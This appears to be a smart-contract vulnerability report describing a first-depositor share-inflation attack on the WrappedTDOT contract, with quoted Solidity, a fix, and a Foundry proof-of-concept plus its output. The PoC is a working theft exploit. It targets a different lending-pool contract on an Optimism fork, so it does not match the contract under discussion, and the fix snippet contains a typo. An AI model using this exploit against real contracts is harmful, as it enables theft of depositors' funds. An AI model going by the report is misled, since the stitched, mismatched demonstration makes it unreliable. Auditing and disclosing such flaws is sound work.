 # Malicious first depositor of `WrappedTDOT` can steal late depositor' fund by manipulating deposit and withdrawal rate.

## Bug Description
Here's attack scenario when there's no depositor which is true.

1. A hacker deposits 1 wei of underlying token to become first depositor of `WrappedTDOT` and making `totalSupply()` as 1.
2. The hacker send large underlying token to `WrappedTDOT` address to manipulate deposit and withdraw rate to exceptionally high.
3. Subsequent depositors will get nothing or less eToken in return because of inflated deposit and withdraw rate.
4. The hacker can withdraw all token balance including subsequent depositor's fund.

He can repeat it any number of times whenever new depositor comes.

## Vulnerability Details

Here's the formula when totalSupply is greater than zero.

```
  depositRate = totalSupply() *1e18 / IERC20(tdot).balanceOf(address(this));
  withdrawRate = IERC20(tdot).balanceOf(address(this)) * 1e18 / totalSupply();
```

If totalSupply() == 1 and IERC20(tdot).balanceOf(address(this)) is greater than 1 ether.

```
  depositRate = 0
  withdrawRate = IERC20(tdot).balanceOf(address(this)) * 1e18;
```

If deposit rate is zero, depositor will not receive any share in exchange of deposited balance, it will belong to orignal depositor who has 100% of total supply, effectively rugging late depositor.

https://github.com/AcalaNetwork/Euphrates/blob/master/src/WrappedTDOT.sol#L63-L84
```
    function depositRate() public view returns (uint256) {
        uint256 tdotAmount = IERC20(tdot).balanceOf(address(this));
        uint256 wtdotAmount = totalSupply;

        if (wtdotAmount == 0 || tdotAmount == 0) {
            return 1e18;
        } else {
            return wtdotAmount.mul(1e18).div(tdotAmount);
        }
    }

    /// @inheritdoc IWTDOT
    function withdrawRate() public view returns (uint256) {
        uint256 tdotAmount = IERC20(tdot).balanceOf(address(this));
        uint256 wtdotAmount = totalSupply;

        if (wtdotAmount == 0) {
            return 0;
        } else {
            return tdotAmount.mul(1e18).div(wtdotAmount);
        }
    }

    function deposit(uint256 tdotAmount) public returns (uint256) {
        uint256 wtdotAmount = tdotAmount.mul(depositRate()).div(1e18);
        require(wtdotAmount != 0, "WTDOT: invalid WTDOT amount");

        IERC20(tdot).safeTransferFrom(msg.sender, address(this), tdotAmount);
        _mint(msg.sender, wtdotAmount);

        emit Deposit(msg.sender, tdotAmount, wtdotAmount);
        return wtdotAmount;
    }

    /// @inheritdoc IWTDOT
    function withdraw(uint256 wtdotAmount) public returns (uint256) {
        require(balanceOf[msg.sender] >= wtdotAmount, "WTDOT: WTDOT not enough");
        uint256 tdotAmount = wtdotAmount.mul(withdrawRate()).div(1e18);
        require(tdotAmount != 0, "WTDOT: invalid TDOT amount");

        _burn(msg.sender, wtdotAmount);
        IERC20(tdot).safeTransfer(msg.sender, tdotAmount);

        emit Withdraw(msg.sender, wtdotAmount, tdotAmount);
        return tdotAmount;
    }
```

## Impact

First depositor can steal future users' deposits while the victims will get lose all of his deposit.

## Recommendation
When initializing reserve, fixed amount of eToken should be minted to address(0).

By setting lower limit of total supply, it will become economically difficult to manipulate deposit rate for hacker.

```solidity
    constructor(address tdotAddr) ERC20("Wrapped TDOT", "WTDOT", 10) {
+       mint(addresss(0), 1000);
    }
```

## Proof of Concept
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;
import "forge-std/Test.sol";

interface ILendingPool {
  function initReserve(address asset) external;

  function nextReserveId() external returns (uint256);

  function owner() external returns (address);

  function deposit(
      uint256 reserveId,
      uint256 amount,
      address onBehalfOf,
      uint16 referralCode
  ) external payable returns (uint256);

    function redeem(
        uint256 reserveId,
        uint256 eTokenAmount,
        address to,
        bool receiveNativeETH
  ) external payable returns (uint256);

    function getETokenAddress(uint256 reserveId) external view returns (address);

    function exchangeRateOfReserve(uint256 reserveId) external view returns (uint256);

}
interface   IERC20 {
  function name() external view returns (string memory);
  function decimals() external view returns (uint8);
  function balanceOf(address owner) external view returns (uint256);
  function totalSupply() external view returns (uint256);

  function transfer(address to, uint256 value) external returns (bool);
  function approve(address spender, uint256 value) external returns (bool);
}

contract ContractTest is Test {
    address       hacker = 0xf8ea83bEC8CcBC3d5564E23FE71d15f1b1e7f2b0;
    address       victim = 0x1705fA8e57C4320048E3ed8F8B7523C340f2AA47;
    ILendingPool  lendingPool = ILendingPool(0xBB505c54D71E9e599cB8435b4F0cEEc05fC71cbD);
    IERC20        underlying = IERC20(0x0b2C639c533813f4Aa9D7837CAf62653d097Ff85); // usdc

  function setUp() public {
    vm.createSelectFork("optimism"); 

    vm.label(address(lendingPool), "lendingPool");
    vm.label(address(underlying), "underlying");
    vm.label(address(hacker), "hacker");
    vm.label(address(victim), "victim");
  }

  function testExtra() public {
    vm.startPrank(lendingPool.owner());
    lendingPool.initReserve(address(underlying));

    uint256 reserveId = lendingPool.nextReserveId() - 1;
    IERC20  eToken = IERC20(lendingPool.getETokenAddress(reserveId));
    uint256 prevBalance = underlying.balanceOf(hacker);


    // Step 1
    console.log("Step 1 - Becoming first depostor and manipulating exchange rate");
    vm.startPrank(hacker);
    underlying.approve(address(lendingPool), type(uint256).max);
    eToken.approve(address(lendingPool), type(uint256).max);
    lendingPool.deposit(reserveId, 1, hacker, 0);
    emit log_named_decimal_uint("Exchange rate before manipulation", lendingPool.exchangeRateOfReserve(reserveId), 18);
    underlying.transfer(address(eToken), underlying.balanceOf(hacker));
    emit log_named_decimal_uint("Exchange rate after manipulation", lendingPool.exchangeRateOfReserve(reserveId), 18);
    emit log_named_decimal_uint("eToken totalSupply", eToken.totalSupply( ), 0);
    emit log_named_decimal_uint("Hackers's eToken balance", eToken.balanceOf(hacker), 0);
    emit log_named_decimal_uint("Hacker's underlying balance", underlying.balanceOf(hacker), 6);

    // Step 2
    console.log("");
    console.log("Step 2 - Stealing victim's deposit");
    vm.startPrank(victim);
    underlying.approve(address(lendingPool), type(uint256).max);
    eToken.approve(address(lendingPool), type(uint256).max);
    lendingPool.deposit(reserveId, 5000_000_000, victim, 0);
    emit log_named_decimal_uint("Victim's eToken balance", eToken.balanceOf(victim), 0);

    // Step 3
    console.log("");
    console.log("Step 3 - Withdrawing profit");
    vm.startPrank(hacker);
    lendingPool.redeem(reserveId, eToken.balanceOf(hacker), hacker, false);
    emit log_named_decimal_uint("Hacker's profit", underlying.balanceOf(hacker) - prevBalance, 6);
  }
}
```

###Output
```
Running 1 test for test/ExtraFinance_test.sol:ContractTest
[PASS] testExtra() (gas: 3289973)
Logs:
  Step 1 - Becoming first depostor and manipulating exchange rate
  Exchange rate before manipulation: 1.000000000000000000
  Exchange rate after manipulation: 10000000000.000000000000000000
  eToken totalSupply: 1.0
  Hackers's eToken balance: 1.0
  Hacker's underlying balance: 0.000000

  Step 2 - Stealing victim's deposit
  Victim's eToken balance: 0.0

  Step 3 - Withdrawing profit
  Hacker's profit: 5000.000000
```